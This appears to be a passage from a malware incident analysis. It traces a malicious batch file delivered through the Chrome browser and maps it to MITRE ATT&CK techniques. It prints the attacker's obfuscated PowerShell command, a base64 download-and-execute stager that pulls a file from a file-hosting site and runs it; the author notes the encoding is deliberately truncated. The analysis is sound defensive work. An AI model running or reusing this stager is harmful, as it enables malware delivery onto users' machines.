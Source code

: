 The parent process identified is `chrome.exe`, indicating the file was likely delivered through the browser and then staged or executed on the system. 

As shown in **Figure 9**, the `.bat` file contains a PowerShell command that attempts to execute the script shown below in base64.

![Fig 9: Base64 Encoded BAT File](/assets/images/Elastic/Fig%209%20-%20base64%20bat.png)

```
powershell -ExecutionPolicy Bypass -NoProfile -Command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('CiRiYXNlNjQgPSAoaXdyIC1VcmkgJ2h0dHBzOi8vZmlsZXMuY2F0Ym94Lm1vZS9jNmg0M3UudHh0JykuQ29udGVudAokYnl0ZXMgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRiYXNlNjQpCiRw5QYXRoXTo6Q29tYmluZSgkZW52OkFQUERBVEEsICdtYXNvbmRscG41ay5iYXQnKQpbU3lzdGVtLklPLkZpbGVdOjpXcml0ZUFsbEJ5dGVzKCRwYXRoLCAkYnl0ZXMpClN0YXJ0LVByb2Nlc3MgLUZpbGVQYX-----==')) | Invoke-Expression"
```

*Please note the base64 is not complete here*

This activity aligns with several techniques in the **MITRE ATT&CK framework**:

- **T1059.001 – PowerShell**
    
    The attacker uses PowerShell as the execution medium, a common post-exploitation tactic due to its native capabilities and scripting flexibility.
    
- **T1027 – Obfuscated Files or Information**
    
    The use of base64 encoding within a PowerShell command is a classic example of content obfuscation designed to evade detection and complicate analysis.
    
- **T1204.002 – User Execution: Malicious File**
    
    The presence of a `.bat` file downloaded via a web browser, likely requiring user interaction to initiate, suggests social engineering or user-driven execution.
    